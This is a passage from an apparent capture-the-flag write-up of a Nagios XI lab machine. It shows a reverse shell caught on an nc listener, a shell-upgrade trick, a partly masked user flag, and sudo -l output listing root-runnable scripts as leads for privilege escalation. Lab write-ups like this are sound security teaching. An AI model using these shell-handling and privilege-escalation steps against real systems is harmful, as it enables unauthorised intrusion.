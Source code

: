 I'll click it (and the next button in the popup), and it hangs, but
there's a shell at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.248 53976
    bash: cannot set terminal process group (61550): Inappropriate ioctl for device
    bash: no job control in this shell
    nagios@monitored:~$



I'll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    nagios@monitored:~$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    nagios@monitored:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    nagios@monitored:~$ 



And grab the user flag:



    nagios@monitored:~$ cat user.txt
    a81be4e9************************



## Shell as root

### Enumeration

#### sudo

`sudo -l` shows that the nagios user has 21 commands they can run as
root:



    nagios@monitored:~$ sudo -l 
    Matching Defaults entries for nagios on localhost:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User nagios may run the following commands on localhost:
        (root) NOPASSWD: /etc/init.d/nagios start
        (root) NOPASSWD: /etc/init.d/nagios stop
        (root) NOPASSWD: /etc/init.d/nagios restart
        (root) NOPASSWD: /etc/init.d/nagios reload
        (root) NOPASSWD: /etc/init.d/nagios status
        (root) NOPASSWD: /etc/init.d/nagios checkconfig
        (root) NOPASSWD: /etc/init.d/npcd start
        (root) NOPASSWD: /etc/init.d/npcd stop
        (root) NOPASSWD: /etc/init.d/npcd restart
        (root) NOPASSWD: /etc/init.d/npcd reload
        (root) NOPASSWD: /etc/init.d/npcd status
        (root) NOPASSWD: /usr/bin/php
            /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
        (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *